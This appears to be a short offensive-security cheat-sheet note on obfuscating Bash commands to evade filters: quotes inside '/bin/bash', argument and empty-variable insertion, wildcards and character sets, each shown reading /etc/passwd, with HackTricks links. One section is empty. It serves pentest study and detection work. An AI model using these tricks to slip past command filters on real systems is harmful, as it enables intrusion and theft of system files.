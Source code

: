 ```yaml
---
author(s):
  - Userware
tags:
  - defense-evasion
  - obfuscation
  - linux
---
```

# Bash

## Quotes

Using single quotes. Ensure they are enclosed between each other.

```
/b'i'n/ba'sh'
```

Using double quotes. Ensure they are enclosed between each other.

```
/b"i"n/ba"sh"
```

## Arguments

### Invoke Argument Expression

```
$ echo cat /etc/passwd | $0
```

### Arguments Variable

```
$ cat /etc/pas$@swd
```



## Uninitialized Variables

```
$ cat$empty /etc$empty/passwd$empty
```

## Backslashes

```
$
```

## Regular Expression

### Wildcards

Using the asterisk (`*`) as a placeholder to interpret whatever character will from the start to the end.

```
$ cat /etc/*wd
```

### Character Substitution

```
cat /et?/p?s??d
```

### Character Sets

```
/[uU]sr/b[iI]n/ca[tT] /etc/passwd
```

---
## References

### Backlinks

- [[01 - Charsets]]

- [[02 - Wildcards and optional characters]]

### Hacktricks

- [Hacktricks: Bypass Bash Restrictions](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)

### r00t 3xp10it

- [r00t-3xp10it: Simple Obfuscation](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md)